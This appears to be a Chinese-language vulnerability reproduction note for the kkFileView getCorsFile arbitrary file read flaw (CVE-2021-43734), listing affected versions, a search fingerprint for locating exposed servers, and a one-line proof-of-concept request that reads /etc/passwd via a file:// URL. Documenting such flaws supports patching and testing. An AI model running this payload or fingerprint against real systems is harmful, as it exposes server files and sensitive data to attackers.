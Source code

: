 # kkFileView getCorsFile 任意文件读取漏洞 CVE-2021-43734

## 漏洞描述

kkFileView getCorsFile 3.6.0 版本以下存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的任意文件，获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>kkFileView getCorsFile <= 3.6.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="kkFileView" </a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1652453158898-01e2a7f9-f2eb-44ba-8715-06fed288748e.png)



验证POC

```java
/getCorsFile?urlPath=file:///etc/passwd 
```

![img](../../../.vuepress/public/img/1652453877704-2f24206f-efe1-459d-b0ff-5a2604605cc9.png)